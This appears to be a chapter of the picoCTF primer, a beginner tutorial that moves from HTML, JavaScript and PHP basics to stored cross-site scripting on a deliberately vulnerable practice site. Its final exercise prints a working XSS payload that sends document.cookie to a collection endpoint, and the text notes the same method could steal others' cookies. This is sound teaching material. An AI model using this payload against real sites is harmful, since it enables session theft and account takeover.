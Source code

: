 

== Web Exploits

Web exploits are a nice starting point to dive into the world of hacking. Chances are that you are familiar with a web browser, so you will feel you are working on something that you already know!

=== Html

Before diving into Web Exploits, you need to understand how a website works. Many years ago, the web was used to visit static pages that did not have interactive features; they just showed information. To do a static page, it is enough to write some lines of HTML. What is HTML? First, it is not a programming language. Html means HyperText Markup Language, and we use it to determine the font size, colors, margins, or similar features in a web page. When an html file is accessed in a browser like Firefox, Chrome or whichever browser you like, the browser presents the text according to the html on it. Your browser can access an html file locally. Locally means that the file could be in your laptop or file system. In contrast, it could access the file remotely through the Internet. Let's see an example of creating a simple html and access it locally:


. On your computer, create a folder called "picoexample" and then, inside that folder, create a text file and name it "myFirstPage.html". You can do this on Notepad on Windows, Textedit on Mac, or any text editor from Linux. It is important that the extension is ".html". It cannot be ".html.txt" or something that is not exactly ".html". If you don't see the extension in your operating system, this is a good opportunity to google how to make it appear to be able to modify it. Remember, for obstacles that might appear along the way, google is the answer.

. Edit the content in a text editor and write: Hello World!

. Save the file

. Open the file in any browser. To do that, you can right click on the file, and then select "open with" and choose the browser you want. You should see a page like the following:


[.text-center]
.Hello World! page
image::images/image13.png[image,width=624,height=46]

. Now, in the text editor, modify the content of the file and replace the text by: <b>Hello World!</b>
. Save the file on the text editor. Then, open the file in the browser again, or you can simply click refresh on your browser. Since it already has opened the file, you will see the message in bold, similar to this:


[.text-center]
.Hello World! page in bold
image::images/image27.png[image,width=624,height=46]



You just created a page with a very simple HTML that made your message appear in bold. Note that <b> is the opening tag, </b> is the closing tag. Analyze the difference between the opening and closing tag. What do you see? The closing tag is usually the same as the opening tag, but you include "/" like we just did. We just used an html tag to tell the browser we want some specific text in bold. Html is just a bunch of tags that allow us to do similar things.

Now let's make a page with more fields so you can get a sense of tags and the structure of a bigger page. Use the following HTML code to replace the content of the file you are editing:




[source,html]
<html>
<head>
   <title>This is a picoCTF html Example</title>
</head>
<body>
   <h1>This is a Heading</h1>
   <h2>This is a smaller Heading</h2>
   <p>This is a paragraph.</p>
   The following is an image:<br>
   <img src="picologo.png" />
</body>
</html>


As you did before, save the file in the text editor and click refresh on the browser. You probably see something like this:

[.text-center]
.Headings of different size and broken image 
image::images/image17.png[image,width=624,height=496]

If you read the html code and try to analyze its content, you will realize the following:

* The title shown in that tab of the browser "This is a picoCTF html Example", appears there because you put that text inside in the <title></title> tags.
* <h1> Is used to create a big heading
* <h2> creates a heading smaller than <h1>
* The <head> tags are used to group introductory content, in this case the title, but if you remove this tag, you will not see much change in our page. Do the experiment of removing it. If you only remove the opening or closing tag it will cause an html error, so make sure to delete the opening tag and closing tag.
* The <body> tags are used to group the main content of the page. If you remove them you will not see much change in our page because we have just a few things. However, in several cases you might break a page completely if you remove a tag without proper care.

You may have noted the <img> tag is not showing any image as it should. Why? Let's analyze the element img:

[source,html]
<img src="picologo.png" />

First you see there is not opening or closing tag, there is just one tag with the slash at the right-hand side. This is ok for an image. As you can see, it has an *attribute* called "src", which means source. We are assigning to "src" the value "picologo.png". Our html is going to try to access a file called "picologo.png" in the same folder where "myFirstPage.html" is contained, which is the folder we name at first "picoexample". There is no image called "picologo.png", so the browser has nothing to show. Copy and paste an image to the folder and name it "picologo.png". The extension of the image has to be ".png". If you have an image with a different extension, you can just use the extension you need in the "src" attribute in your html. For example, if the extension of the image you have is ".jpg" you can simply replace

[source,html]
<img src="picologo.png" />

with

[source,html]
<img src="picologo.jpg" />

If you successfully created the image in the folder, and refresh the browser you will see the following, of course, with your own custom image:

[.text-center]
.Custom image
image::images/image22.png[image,width=624,height=496]

A fundamental part of web sites are the links. The link tag is *<a>*, the following is an example of a link directed to google:

[source,html]
<a href="http://google.com" > Go to google! </a>

Use that element and put it in your code to make a link to the web site you want. Now practice by adding more html tags and images in your page! This is a reference in which you can find more html tags:

https://www.w3schools.com/tags/[https://www.w3schools.com/tags/, window="_blank"]


=== JavaScript

To make pages more interactive JavaScript is commonly used. JavaScript is a programming language! We can do algorithms using it. JavaScript is executed in your browser. For example, when you visit a website, the JavaScript code is downloaded along the HTML and it only executes once it is loaded in your browser. When you visit a page, you are downloading an html file and your browser interprets the tags and prints the text and images as we learned before. This image illustrates that process:

[.text-center]
.Client to server communication
image::images/image26.png[image,width=624,height=357]

If that file happens to contain JavaScript, your browser will execute it. Let's look at an example. In the same folder "picoexample", create a file called "myFirstJS.html" using a text editor. Then, put the following content in the file:

[source,html]
<html>
    <head>
        <title>This is a picoCTF JS Example</title>
        <script>
            alert("Hello picoCTF");
        </script>
    </head>
    <body>
        <h1>JavaScript example</h1>>
    </body>
</html>


Save the file. As soon as you open the page, you will see an alert showing "Hello picoCTF", something like this:

[.text-center]
.Alert "hello picoCTF"
image::images/image5.png[image,width=624,height=496]

If you analyze the file, you will note that the magic is happening in this element:

[source,html]
<script>
    alert("Hello picoCTF");
</script>

Whatever you put inside the tags "<script> </script>" will be tried to execute by the browser as JavaScript. Since JavaScript is a programming language, we should be able to do some arithmetic. Replace the string "Hello picoCTF" by an arithmetic operation, like 8*8, like this:

[source,html]
<script>
    alert(8*8);
</script>

Note that we only use quotes when we want to use a string. In arithmetic operations we don't use quotes. Save the file and refresh the browser. You should see the following:

[.text-center]
.Arithmetic result
image::images/image18.png[image,width=624,height=496]


Click Ok in the alert message to make it go away. Anything you write in JavaScript or html will be visible for any user that accesses your page in a browser. To see the html and JavaScript code in your browser right click the page and then "View Page Source"

[.text-center]
.Right click to view page source
image::images/image10.png[image,width=402,height=296]

You will see the JavaScript code you just wrote:

[.text-center]
.HTML source code
image::images/image6.png[image,width=474,height=376]

This is a very important thing! Never put a secret in your JavaScript code or html. If someone does it, that will be a vulnerability in your page. As a hacker you can try to look for secrets on the html of a page you want to exploit.

Now let's use some more elaborated code. We are going to make a page that adds two numbers input by the user and shows the result in an alert. We will explain its code in detail later. The code is the following:

[source,html]
<html>
    <head>
        <title>This is a picoCTF JS Example</title>
        <script>
            function myFunctionSum(){
                var number1 = document.getElementById("number1").value;
                var number2 = document.getElementById("number2").value;
                var result = Number(number1) + Number(number2);
                alert(result);
            }
        </script>
    </head>
    <body>
        <h1>JavaScript example to add2 numbers</h1>
        Input the first number<br>
        <input type="text" id="number1"  ><br>
        Input the second number<br>
        <input type="text" id="number2" ><br>
        <button onclick="myFunctionSum()"> Show alert! </button>
    </body>
</html>

Put it on a text file, save it, and open it on a browser as usual. You should see this:

[.text-center]
.Add two numbers
image::images/image3.png[image,width=492,height=390]

If you put the numbers in each text field, and click "show alert!", you will see the alert with the result. For this example let's input 4 and 2 in the text fields, you should see:

[.text-center]
.Alert result
image::images/image23.png[image,width=510,height=405]

Now that you know what the page does, let's analyze the new lines of the code. In this line we have an input tag:

[source,html]
<input type="text" id="number1" ><br>

As you can see, it is of type text, and it has an "id" with the value of "number1". The value of the "id", in this case "number1", is something we arbitrarily define to be able to access the content of this text input in JavaScript. This line:

[source,html]
<button onclick="myFunctionSum()"> Show alert! </button>

Is responsible for calling the function "myFunctionSum()" when the button is clicked. A function is just a piece of code that we can define, so whenever is called it executes the code inside. In this case, we named the function "myFunctionSum", but is is possible to give it any name. The function has to be defined inside the script tags. Try to read the function and understand at a general level what each line is doing:

[source,javascript]
function myFunctionSum(){
  var number1 = document.getElementById("number1").value;
  var number2 = document.getElementById("number2").value;
  var result = Number(number1) + Number(number2);
  alert(result);
}

Perhaps a confusing part is the following line:

[source,javascript]
  var result = Number(number1) + Number(number2);
  
When the variables are defined, both number1 and number2 are textual not
numerical. This line turns them into numbers before adding them together. Why
don't you experiment and see what happens when these variables aren't converted
to numbers?

Challenge! Modify the file to multiply the two numbers. When you are done with that, include a new third input number to multiply three different numbers! At this point you should be able to do it on your own. Be careful with the syntax, remember that a single character wrong might break the whole code.

=== Server code

As we said previously, JavaScript is executed only in the browser. What if you want to do calculations and store data in the remote server? For example, when you login into a Website, your user and password has to be verified on the server. The password is stored in the server and should not travel outside of it for the sake of security. If you would verify a password on JavaScript, you would be able to see it on your browser in the same way you can see any JavaScript, and that would be very insecure. There are several programming languages that can be executed on the server, for instance:

* Python
* Java
* PHP
* C
* C Sharp
* And many more...

For our examples, we will begin using PHP, not because we think is a great language, but because a huge number of websites on the Internet use it and it is very easy to learn and deploy. In any case, as a hacker, you would generally have to learn all the languages you can because different websites are made on different languages, as well as CTF challenges that try to simulate real life! The more a language is used, the more likely you will have to attack a website made with it. However, the vulnerabilities we will be explaining can happen in any programming language, because they are not a fault of the language, but a fault of the programmer that did the website.

Suppose you have a text file named hello.php, containing:

[source,html]
<b>Hello World!</b>
<script> alert('Hello World from JavaScript!'); </script>
<?php
    echo "Hello World from PHP!";
?>

Note that in a file with the extension .php you can mix html, JavaScript, and PHP code! If the server supports PHP, everything inside *<?php ?>* will be understood as PHP code and run by the server, not by the browser.

Look at the following image carefully to understand what happens:

[.text-center]
.Client to server communication detail
image::images/image36.png[image,width=624,height=345]

If you open a file with that content on your laptop, the PHP code will not be executed, because your laptop is not a PHP server (if you have not made it one). So, to execute PHP you need to make your laptop a server. But for the time being, we can use the following:



https://www.w3schools.com/php/phptryit.asp?filename=tryphp_intro[https://www.w3schools.com/php/phptryit.asp?filename=tryphp_intro, window="_blank"]

Access that link, and you will see at the right a file with html and PHP code, that when is run, prints "My first PHP script!". Let's modify the code to additionally print the date, so below the line

[source,php]
echo "My first PHP script!";

Add the line

[source,php]
echo date("H:i:s");

According to what you have learned so far, that time is from the clock on your computer? Or the time of the clock in the server?

...PHP is server side code, so that time is from the clock on the server!

Now let's make an experiment, and add another line with this php code:

[source,php]
echo "<script> alert('Hello World from JavaScript!'); </script>";

That string echoed in PHP has JavaScript code. Is the JavaScript alert shown? What happened? As expected, anything printed on php, will become an integral part of the html downloaded file, so the JavaScript will be executed. This opens the door for the famous attack of Cross Site Scripting (XSS).

=== Cross Site Scripting (XSS)

After you Login into a Website, the website needs a way to know that any request coming from your browser is coming from a user that previously logged in, without the need to send the user-password again. To do that, the website can send to your browser a secret random value after login. That value is generally stored in a cookie or in JavaScript local storage. For this example, let's pretend it is stored in a cookie, which is simply a variable in your browser that can retain data. If a Website sets a specific cookie in your browser, your browser automatically re-sends that cookie in each request to the website. If a website only uses cookies to retain a session, and if a hacker can steal the authentication cookie from you, they could pretend to be you! Note that only using cookies for autentication will open the possibility of Cross Site Request Forgery (CSRF), but this will be explained later, for now let's focus on XSS.

Suppose you are a hacker in a social network. When you create your account, instead of using your name, you input JavaScript code. When a friend of yours visit your profile, the WebSite will try to print your name, but your name is actually JavaScript code, so the browser might execute that JavaScript code. In that way, you could execute your own JavaScript on your friend's browser!

When you get to execute JavaScript in someone else's browser, you can read their authentication data, which can be a secret value placed on a cookie or JavaScript local storage after a user logs in. At that point, your friend's account would probably be compromised!

An important skill to have, is to use the browser debugger. For this explanation we will use Firefox. You can download and install Firefox here:

https://www.mozilla.org/en-US/firefox/new/[https://www.mozilla.org/en-US/firefox/new/, window="_blank"]

Note: If you really don't want to use Firefox, every browser has a debugger that you can google how to use it. It will not be that different.

Using Firefox, input your name and some text in the description in the following link:

https://primer.picoctf.org/vuln/web/sign_up.php[https://primer.picoctf.org/vuln/web/sign_up.php, window="_blank"]

Open another tab and visit the following link. You should see your name and description:

https://primer.picoctf.org/vuln/web/tableusers.php[https://primer.picoctf.org/vuln/web/tableusers.php, window="_blank"]


Now, in the Firefox Menu, click "Web Developer" and then click "Debugger". You should see a pane like the following:

[.text-center]
.Web Debugger
image::images/image15.png[image,width=624,height=446]

In that pane, click "storage". At the left click "cookies" and click the domain you are currently on. You will see a cookie that has your name in the value!

[.text-center]
.Web Debugger - storage
image::images/image25.png[image,width=624,height=370]

You can only see your cookie. Other users would see their cookie with their name. For this experiment, you will steal your own cookie. But with the same method, you could steal the cookie of someone else.

For now, access this link again:

https://primer.picoctf.org/vuln/web/sign_up.php[https://primer.picoctf.org/vuln/web/sign_up.php, window="_blank"]

Create a new user that has your name, but instead of the description has the following code:

[source,html]
<script> alert('I just injected Javascript!'); </script>

If you navigate this link again, you will see your JavaScript code triggered:

https://primer.picoctf.org/vuln/web/tableusers.php[https://primer.picoctf.org/vuln/web/tableusers.php, window="_blank"]

Like this:

[.text-center]
.JavaScript triggered
image::images/image16.png[image,width=624,height=370]

You just verified that you can inject JavaScript in the website. Now we are going to inject JavaScript that will steal the cookie. Create another user in the same link for creating users:

https://primer.picoctf.org/vuln/web/sign_up.php[https://primer.picoctf.org/vuln/web/sign_up.php, window="_blank"]

But now, put this JavaScript code in the description:

[source,html]
<script src="https://code.jquery.com/jquery-3.4.1.min.js"> </script>
<script>
$.get(
    "https://primer.picoctf.org/vuln/web/insert.php",
    {cookie : document.cookie, hackername : 'YourName'},
    function(data) {
        alert("I just stole the cookie!");
    }
);
</script>

Let's understand the code. The first line, imports a library called jquery: 

[source,javascript]
<script src="https://code.jquery.com/jquery-3.4.1.min.js"> </script>

A library is a set of functions that allow us to do some actions in an easier manner. In this case, it allow us to do requests and send data from JavaScript to a server. We are just sending the cookie to a remote service that is made to receive cookies from this exercise. That service receives two variables: "cookie" and "hackername". The value of the variable cookie will be "document.cookie". Here, instead of "=", we use ":" to assign a value to a variable. Using document.cookie you access the cookies from JavaScript, so that should contain the cookie you want to steal. The variable hackername simply has  a name assigned. You could replace the string "YourName" with your actual name. Remember that a string must be inside quotes in JavaScript.

The function:

[source,javascript]
function(data){
    alert("I just stole the cookie!");
}

Is simply a function that will be executed after the request is sent to the service, and will alert a message.

Now visit this site again:

https://primer.picoctf.org/vuln/web/tableusers.php[https://primer.picoctf.org/vuln/web/tableusers.php, window="_blank"]

When a user visits that site is when the JavaScript is executed and the cookie is stolen. You should see the message:

[.text-center]
.Alert after stealing cookie
image::images/image14.png[image,width=624,height=380]

If you injected scripts previously, all those scripts are stored in the web site and will be executed in the order you injected them when the page that prints them is visited.

Now you should be able to see the cookie you stole here:

https://primer.picoctf.org/vuln/web/tablestolen.php[https://primer.picoctf.org/vuln/web/tablestolen.php, window="_blank"]

[.text-center]
.Table showing results
image::images/image21.png[image,width=624,height=380]

At this point you should have some understanding on how a website works. You are ready to begin to do more web challenges on the picoCTF!

